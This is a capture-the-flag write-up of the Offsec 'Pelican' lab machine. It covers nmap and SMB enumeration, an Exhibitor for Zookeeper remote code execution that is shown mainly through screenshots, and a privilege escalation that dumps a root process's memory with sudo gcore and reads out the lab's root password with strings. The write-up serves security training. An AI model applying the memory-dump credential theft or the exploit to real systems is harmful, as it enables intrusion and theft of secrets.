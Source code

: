 ```yaml
---
title: Writeup - Offsec PG Pelican
date: 2023-10-02  
author: kei5uke
description: Writeup for PG Pelican 
tags:
  - linux
  - writeup
---
```


# Pelican

# **Enumeration with Nmap**

```bash
┌──(root💀kali)-[~/perican]
└─# nmap -p- -sC -sV 192.168.246.98 -T4 -oN nmap.out
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-02 01:05 EEST
Warning: 192.168.246.98 giving up on port because retransmission cap hit (6).
Stats: 0:09:51 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 88.89% done; ETC: 01:15 (0:00:02 remaining)
Nmap scan report for 192.168.246.98
Host is up (0.047s latency).
Not shown: 65495 closed tcp ports (reset), 31 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  Eetbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
|_http-server-header: CUPS/2.2 IPP/2.1
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
8080/tcp  open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Did not follow redirect to http://192.168.246.98:8080/exhibitor/v1/ui/index.html
41665/tcp open  java-rmi    Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-10-01T22:15:28
|_  start_date: N/A
|_clock-skew: mean: 1h20m01s, deviation: 2h18m35s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2023-10-01T18:15:31-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 600.31 seconds
```

# Enumerate SMB

```bash
┌──(root💀kali)-[~]
└─# smbclient \\\\192.168.246.98\\IPC$                                                                                   1 ⨯
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
```

No interesting findings in SMB.


# Enumerate HTTP (8080)

![Screenshot 2023-10-02 at 01.26.03.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_01.26.03.png)

# Exploit the Service

I searched for an exploit for Exhibitor for Zookeeper and found an interesting note.

[Exhibitor Web UI 1.7.1 - Remote Code Execution](https://www.exploit-db.com/exploits/48654)

![Screenshot 2023-10-02 at 02.19.01.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.19.01.png)

I added the necessary part in the java.env script and committed the setting.

![Screenshot 2023-10-02 at 02.19.21.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.19.21.png)

# Low Privilege Shell

![Screenshot 2023-10-02 at 02.34.36.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.34.36.png)

I successfully obtained the shell.

# Privilege Escalation

```bash
charles@pelican:/opt/zookeeper$ sudo -l
sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

The command `/usr/bin/gcore` is allowed to run as root apparently.

[gcore - GTFOBins](https://gtfobins.github.io/gtfobins/gcore/)

The gcore command generates a core file (dump file) of a running process. It can be used to retrieve sensitive information if the process is run by root.  
It can be a way to retrieve sensitive information if the process is run by root.

```bash
root       527  0.0  0.0   2276    72 ?        Ss   18:02   0:00 /usr/bin/password-store
```
I found an interesting process:

```bash
sudo /usr/bin/gcore 527
```
I got the dump.

```bash
charles@pelican:~$ strings core.527
strings core.527
CORE
password-store
/usr/bin/password-store 
CORE
CORE
/usr/bin/passwor
////////////////
LINUX
...
```
I analyzed the strings.

```bash
001 Password: root:
ClogKingpinInning731
```
I found interesting text. It could be the root password.

![Screenshot 2023-10-02 at 02.45.22.png](Pelican%20cc5be9ecb14f4241b87f5ab19c417ad7/Screenshot_2023-10-02_at_02.45.22.png)

`sudo su root -p`  and paste the password and got the root shell.

# Summary
After a hiatus from Linux CTF challenges, diving into this one brought back the familiar rush. Unraveling the pathway to obtaining a shell was a bit of a work, yet the vulnerability turned out to be right under my nose, hidden in plain sight on the web page.

In the initial stages, I overlooked some crucial information simply because the vulnerability version didn't match up. This served as a powerful reminder to always be vigilant and meticulous in scrutinizing every detail. It's a testament to the fact that sometimes, the most critical clues can be hiding in unexpected places.
 